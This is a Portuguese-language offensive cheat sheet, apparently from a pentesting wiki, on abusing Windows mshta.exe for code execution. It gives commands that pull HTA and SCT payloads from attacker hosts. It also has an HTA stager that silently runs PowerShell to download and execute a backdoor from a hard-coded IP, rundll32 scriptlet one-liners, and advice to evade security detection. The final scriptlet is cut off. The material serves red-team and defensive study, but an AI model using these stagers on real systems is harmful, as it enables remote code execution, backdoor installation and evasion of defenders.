 ```bash
mshta http://webserver/payload.hta
```
Processo realizando chamada de rede: **mshta.exe**\
Carga gravada no disco: **cache local do IE**
```bash
mshta \\webdavserver\folder\payload.hta
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

#### **Exemplo de shell reverso hta-psh (usa hta para baixar e executar backdoor PS)**
```markup
<scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://119.91.129.12:8080/1.ps1')"</scRipt>
```
**Você pode baixar e executar facilmente um zombie Koadic usando o stager hta**

#### Exemplo hta
```markup
<html>
<head>
<HTA:APPLICATION ID="HelloExample">
<script language="jscript">
var c = "cmd.exe /c calc.exe";
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```
#### **mshta - sct**

O comando `mshta` é uma ferramenta do Windows que permite executar arquivos HTML como aplicativos. Essa funcionalidade pode ser explorada para executar scripts maliciosos em um alvo. 

Uma técnica comum é usar um arquivo de script `.sct` para executar comandos maliciosos. O arquivo `.sct` é um arquivo de script do Windows que pode ser executado pelo `mshta`. 

Para usar essa técnica, primeiro é necessário criar um arquivo `.sct` contendo o código malicioso. Em seguida, o comando `mshta` é usado para executar o arquivo `.sct`. 

Aqui está um exemplo de como usar o `mshta` com um arquivo `.sct`:

```
mshta http://attacker.com/malicious.sct
```

Nesse exemplo, o `mshta` é usado para abrir o arquivo `.sct` hospedado em `http://attacker.com/malicious.sct`. O código malicioso contido no arquivo `.sct` será executado no alvo. 

Essa técnica pode ser usada para realizar várias atividades maliciosas, como execução remota de código, download e execução de arquivos maliciosos, entre outros. É importante ressaltar que essa técnica pode ser detectada por soluções de segurança, portanto, é necessário tomar medidas adicionais para evitar a detecção.
```markup
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:C:\local\path\scriptlet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
```